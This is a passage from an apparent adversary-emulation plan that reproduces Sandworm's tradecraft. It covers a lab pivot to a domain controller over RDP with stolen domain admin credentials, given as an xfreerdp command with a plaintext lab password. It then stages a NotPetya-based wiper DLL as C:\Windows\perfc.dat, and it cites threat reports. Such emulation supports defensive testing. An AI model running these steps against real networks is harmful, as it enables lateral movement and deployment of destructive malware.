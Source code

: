* <https://www.welivesecurity.com/2017/06/30/telebots-back-supply-chain-attacks-against-ukraine/>

<br>

## Test 9 (Steps 18-19)

### Step 18 - Pivot to DC

:microphone: `voice track`

Sandworm logs into arrakis/10.0.1.4 over RDP using domain credentials (patreides).

Sandworm uploads a DLL based on NotPetya to arrakis (C:\Windows\perfc.dat) over a network share tunneled through the RDP connection.

```
File write: C:\Windows\perfc.dat
```

#### ☣️ Procedures

:warning: go back to your first terminal window; rename to RDP into arrakis.

RDP into arrakis/domain controller using domain admin credentials.

```bash
# Sandworm Team has used stolen credentials to access administrative accounts within the domain.

xfreerdp +clipboard /u:WORKGROUP\\patreides /p:"ebqMB7DmM81QVUqpf7XI" /v:10.0.1.4 /drive:X,sandworm/Resources/NotPetya/bin
```

Accept certificate warnings if prompted.

Once logged in, close server manager and any spurious warnings or pop-ups.

Open PowerShell as administrator `(right click > run as administrator > yes)`:

Copy NotPetya from dungeon to arrakis over RDP channel:

```
copy \\TSCLIENT\X\SharpNP.dll C:\Windows\perfc.dat
```

Delete the RDP network share:

#### :microscope: Cited Intelligence

* <https://www.justice.gov/opa/press-release/file/1328521/download>

* <https://www.welivesecurity.com/2016/12/13/rise-telebots-analyzing-disruptive-killdisk-attacks/>

* <https://www.welivesecurity.com/2018/10/11/new-telebots-backdoor-linking-industroyer-notpetya/>

<br>

### Step 19 - Deploy NotPetya

:microphone: `voice track`
